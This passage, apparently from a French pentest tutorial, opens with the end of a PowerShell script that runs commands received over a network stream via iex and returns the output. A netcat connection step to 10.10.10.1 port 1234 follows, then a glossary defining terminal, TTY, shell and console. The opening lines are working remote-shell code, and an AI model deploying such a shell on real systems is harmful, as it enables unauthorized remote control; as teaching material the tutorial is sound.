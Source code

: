            while (($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) {
               $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes, 0, $i)
               $sendback = (iex $data 2>&1 | Out-String)
               $sendback2 = $sendback + "PS " + (pwd).Path + " "
               $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
               $stream.Write($sendbyte, 0, $sendbyte.Length)
               $stream.Flush()
           }

           $client.Close()
       }

       ```
       {% endcode %}
2.  **Connexion avec Netcat :**

    ```bash
    nc 10.10.10.1 1234
    ```

{% hint style="warning" %}
<mark style="color:orange;">**Terminal**</mark>

* **Définition** : Un terminal est une interface pour la communication avec l'ordinateur. Historiquement, il s'agissait de dispositifs physiques avec un écran et un clavier. Aujourd'hui, ce sont principalement des émulateurs de terminal qui fonctionnent sur des systèmes d'exploitation graphiques.
* **Usage** : Il permet à l'utilisateur d'interagir avec le système d'exploitation en tapant des commandes.

<mark style="color:orange;">**TTY**</mark>

* **Définition** : TTY signifie "teletypewriter" (téléimprimeur). Dans Unix/Linux, il fait référence à un périphérique qui gère les connexions de terminal, que ce soit physique ou virtuel.
* **Usage** : Il représente un canal de communication entre le terminal (ou un émulateur de terminal) et le système d'exploitation. Chaque terminal ouvert ou chaque session SSH est associé à un TTY.

<mark style="color:orange;">**Shell**</mark>

* **Définition** : Un shell est un interpréteur de commandes qui permet à l'utilisateur d'exécuter des commandes sur le système d'exploitation. Des exemples courants incluent bash, zsh, sh, etc.
* **Usage** : Il interprète les commandes tapées par l'utilisateur et les exécute. Il fournit également des fonctionnalités comme des scripts pour automatiser les tâches.

<mark style="color:orange;">**Console**</mark>

* **Définition** : Une console est souvent utilisée de manière interchangeable avec un terminal, mais dans le contexte Unix/Linux, elle fait souvent référence à l'interface principale de saisie/sortie du système. C'est le dispositif où les messages de démarrage et les journaux système sont envoyés.
* **Usage** : Après le démarrage, la console peut devenir un terminal où des sessions interactives peuvent avoir lieu.

***

<mark style="color:orange;">**En Résumé**</mark>

* **Terminal** : Interface utilisateur pour taper des commandes (physique ou émulateur).
* **TTY** : Dispositif Unix/Linux pour gérer les connexions de terminal.
* **Shell** : Interpréteur de commandes (exécute les commandes entrées par l'utilisateur).
* **Console** : Dispositif principal de saisie/sortie du système, souvent utilisé pour des tâches de diagnostic ou de maintenance système.

